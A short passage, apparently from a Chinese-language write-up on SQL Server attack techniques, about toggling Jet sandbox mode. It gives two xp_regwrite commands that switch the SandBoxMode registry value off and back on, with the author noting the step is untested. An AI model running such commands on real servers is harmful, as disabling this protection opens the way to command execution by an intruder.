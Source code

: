 <img src="assets/ojMvz7lxrpyIaX3.png" alt="image-20230321125943315" style="zoom:50%;" />

### 4.4.2. 管理沙盒模式

这里我看别人的文章，说沙盒模式的开关都不影响命令的运行，这里由于需要安装在32位系统上，这里我就没有测试。

```mssql
关闭:
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

恢复:
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',2;
```

